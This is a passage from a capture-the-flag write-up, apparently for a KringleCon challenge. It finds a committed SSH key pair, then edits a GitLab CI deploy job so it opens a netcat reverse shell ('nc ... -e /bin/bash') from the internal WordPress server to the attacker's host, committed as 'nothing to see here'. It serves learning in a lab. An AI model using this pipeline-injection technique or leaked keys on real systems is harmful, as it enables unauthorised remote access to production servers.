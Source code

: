 ```
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
diff --git a/.ssh/.deploy.pub b/.ssh/.deploy.pub
deleted file mode 100644
index 8c0b43c..0000000
--- a/.ssh/.deploy.pub
+++ /dev/null
@@ -1 +0,0 @@
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```

It appears that an SSH key pair was committed by accident. We can save this information (while remembering to remove the prefixed dash char on each line), and maybe it will help us commit to the repository we need to exploit.

Now we can take a look at the pipeline code in `.gitlab-ci.yml`:
```
stages:
  - deploy

deploy-job: 	 
  stage: deploy
  environment: production
  script:
	- rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html
```
This code copies the current working directory (AKA all code in the repository) to the server `wordpress.flag.net.internal` at directory `/var/www/html`.

Perhaps we can add some more code to activate a remote shell to our environment, so we can explore the wordpress server and look for the Elfen Ring.

We can add this another script step to the `.gitlab-ci.yml`:

```
ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy root@wordpress.flag.net.internal nc 172.18.0.99 1337 -e /bin/bash
```

And let’s try to commit it up to trigger the pipeline:
```
grinchum-land:~/wordpress.flag.net.internal# git add .gitlab-ci.yml
grinchum-land:~/wordpress.flag.net.internal# git commit -m "nothing to see here"
[main 1b6ca61] nothing to see here
 Committer: root <root@grinchum-land.flag.net.internal>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

	git config --global --edit

After doing this, you may fix the identity used for this commit with:

	git commit --amend --reset-author

 1 file changed, 1 insertion(+)
grinchum-land:~/wordpress.flag.net.internal# git push
Username for 'http://gitlab.flag.net.internal': ^C
```
